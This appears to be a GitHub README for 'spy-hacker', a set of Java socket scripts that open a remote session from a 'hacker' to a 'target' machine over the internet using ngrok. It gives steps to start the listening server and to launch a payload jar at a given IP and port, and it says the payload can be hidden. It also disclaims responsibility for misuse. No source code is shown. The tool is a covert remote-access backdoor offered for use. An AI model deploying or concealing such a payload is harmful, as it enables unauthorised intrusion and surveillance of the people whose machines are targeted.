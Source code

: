 # spy-hacker
simple scripts based on the socket to open a session between the target and the hacker over the internet using ngrok tools

- Note :i am not responsible for any bad use of these scripts
1) You need JRE(java runtime environment)
- to launch the scripts
1)  first runs java server script using this command : java SpyHacker
2)  type the local port and waiting the connection of the client
3)  to launch the payload you should pass the ip and number port as an input parameter
4)  type this command to lunch the payload : java -jar payload.jar 192.168.1.1 8080 (as an example for ip address and port number)
5) you can hide the payload (see the video below)
- screenshot
![](spy hacker Capture.png)



